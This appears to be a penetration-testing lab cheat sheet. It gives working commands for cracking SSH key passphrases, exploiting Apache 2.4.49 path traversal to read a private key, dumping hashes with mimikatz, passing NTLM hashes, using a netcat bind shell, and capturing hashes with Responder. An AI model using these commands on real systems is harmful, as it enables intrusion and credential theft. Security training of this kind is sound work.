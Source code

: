   ```
  ssh2john id_rsa > ssh.hash  #format the hash

  cat ssh.hash: id_rsa:$sshng$6$16$7059e78a8d3764ea1e883fcdf592feb7$1894$6f70656e77373682... #E.g hash text

  sudo sh -c 'cat /home/kali/passwordattacks/ssh.rule >> /etc/john/john.conf' #add the hash rule to JtR config
  john --wordlist=ssh.passwords --rules=sshRules ssh.hash #crack

  rm ~/.ssh/known_hosts
  chmod 600 id_rsa
  ssh -i id_rsa -p 2222 dave@192.168.50.201 #login
  ```
- ssh passphrase via path traversal "Apache 2.4.49"
  - `searchsploit "Apache 2.4.49"`  #HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)
  - Read id_rsa key
    `curl --path-as-is http://192.168.161.201/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/home/alfred/.ssh/id_rsa -o id_rsa`  
  - Crack password
    ```
    nano ssh.rule
    [List.Rules:sshRules]
    c $1 $3 $7 $!  
    c $1 $3 $7 $@  
    c $1 $3 $7 $#  

    ssh2john id_rsa > ssh.hash

    hashcat -m 22921 ssh.hash ssh.passwords -r ssh.rule --force
    sudo sh -c 'cat /home/kali/offsec/passwordattacks/ssh.rule >> /etc/john/john.conf'
    john --wordlist=/usr/share/wordlists/rockyou.txt --rules=sshRules ssh.hash
    ```
- Passing NTLM (User + Hash)  
  - scenario: user from FILES01 extract admin hash and authenticate to FILES02 SMB share  
  ```
  .\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" exit

  #option 1: SMB
  smbclient \\\\192.168.139.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
  smb: \> get secrets.txt
  
  #option 2: psexec
  impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
  C:\Windows\system32> hostname
  ```
- Net-NTLMv2 challenge–response hash (cannot run Mimikatz as an unprivileged user)  
  - Only exists during authentication traffic SMB
  - connect to bind shell on port 4444  
    `nc 192.168.139.211 4444`  
    `C:\Windows\system32> whoami`  
  - start responder on interface tap0
    `kali@kali:~$ sudo responder -I tap0`  
  - create an SMB connection to our kali
    `C:\Windows\system32>dir \\<kali>\test`
  - responder capturing the Net-NTLMv2 hash of paul.
    [SMB] NTLMv2-SSP Hash :paul::FILES01:1f9d4c51f6e74653:795F138EC6
  - `hashcat -m 5600 paul.hash /usr/share/wordlists/rockyou.txt --force`  #crack Net-NTLMv2 5600
- Relaying Net-NTLMv2 (cannot run Mimikatz as an unprivileged user + failed to crack Net-NTLMv2 hash)
  - Capture a user’s Net-NTLMv2 hash via SMB/HTTP request, then relay it to a target (e.g., SMB, LDAP, or HTTP) to gain access without knowing the password